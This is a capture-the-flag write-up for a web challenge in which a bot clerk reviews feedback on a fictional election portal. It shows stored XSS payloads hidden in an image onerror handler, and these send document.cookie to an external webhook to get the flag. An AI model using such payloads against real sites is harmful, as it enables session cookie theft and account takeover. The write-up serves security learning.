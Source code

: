 # Trusted Clerk - web

## Challenge

The national elections in Freedonia have officially begun. In the spirit of transparency and continuous improvement, the Ministry of Electoral Integrity has launched a new early voting portal. Citizens are encouraged not only to cast their vote - but also to leave anonymous feedback about their voting experience.

“Your voice matters twice - once for your candidate, and once for your country.”

## Solve

The tile of this challenge suggested to me that there may be a bot simulating a 'clerk' reviewing feedback submissions. I have completed a challenge similar to this in a [previous CTF](https://github.com/jvargit/CTF_Challenges/blob/36a1160895f032489f5e0a2d33b9d98f9328452e/LACTF%202025/web/mavs-fan.md?plain=1#L2) so immediately submitted a payload to test whether my assumption was correct:

```html
<img src=x onerror='fetch("https://webhook.site/fc3270b1-5cc2-42d3-90d4-ff80455965ff", { method: "POST", body: "Bot visited!" })'
```

Soon enough my webhook site was pinged and I received the message:

<img width="690" height="643" alt="hook" src="https://github.com/user-attachments/assets/5af6a773-f452-480a-870a-2d694f79739c" />


The 'trusted clerk' had opened up our submission with the stored XSS payload!

The next step was to experiment with payloads that called resources where the flag might be contained. It ended up being a cookie exfiltration:

```html
<img src=x onerror='
fetch("https://webhook.site/fc3270b1-5cc2-42d3-90d4-ff80455965ff", {
  method: "POST",
  body: document.cookie
});
'>
```

<img width="698" height="634" alt="storedxss" src="https://github.com/user-attachments/assets/1f8a34fd-81bc-4bec-8a1e-430d37577b9d" />


`secedu{spr1nkle_s0me_http0nly_0n_y0ur_ch0colate_ch1p_c0oki3}`



